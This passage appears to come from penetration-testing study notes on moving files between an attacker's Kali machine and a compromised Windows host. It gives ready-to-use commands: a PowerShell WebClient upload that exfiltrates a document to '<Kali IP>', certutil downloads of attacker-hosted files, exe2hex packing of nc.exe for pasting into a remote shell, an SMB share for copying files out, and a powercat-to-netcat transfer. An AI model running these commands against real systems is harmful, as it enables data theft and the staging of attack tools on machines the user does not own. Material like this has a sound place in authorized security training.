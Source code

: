 From Windows, invoke the _UploadFile_ method from the _System.Net.WebClient_ class to upload the document we want to exfiltrate:

````
powershell (New-Object System.Net.WebClient).UploadFile('http://<Kali IP>/upload.php', '<Doc to exfil')
`````


## Exe2hex
Compress and transfer files. Example to transfer nc.exe from Kali to Windows:

````
upx -9 nc.exe                   // Compress the file with upx
exe2hex -x nc.exe -p nc.cmd     // Convert the file to a Windows script (.cmd) with exe2hex
````
Copy the script (we can copy it to the clipboard with _cat nc.cmd | xclip -selection clipboard_) and paste it in the remote shell. This will automatically transfer the hex file on Windows and convert it back to binary (at the end of the script, there are commands which rebuild the _nc.exe_ executable on the target).


## Certutil
Reliable and often installed tool on Windows machines:

````
certutil.exe -urlcache -split -f http://<Kali IP>/<File to download> <Name of the downloaded file>
certutil.exe -verifyctl -f -split http://<Kali IP>/<File to download> <Name of the downloaded file>
`````


## SMB
Start a server on Kali/Linux host, and copy the file to the created share (use backslashes and double backslashes in front of Kali's IP in the command below):

````
sudo impacket-smbserver <sharename> .
copy <path to file> \\<kali IP>\<sharename>\<filename>
`````


## Powercat
Similar to Netcat. It may be necessary to transfer powercat to the target machine beforehand.

````
sudo nc -nlvp 443 > <name of the object that will be received>        // Receiving end
powercat -c <Kali IP> -p 443 -i C:\<path of the object to transfer>   // Sending end
````
In this command, _-c_ specifies the client mode and sets the listening address, _-i_ indicates the local file to transfer.


## TFTP 
TFTP is a UDP-based file transfer protocol.
Rarely works (often restricted by egress firewall rules), but can come handy in certain situations. 
For example, it can be used on older systems if PowerShell isn't installed.

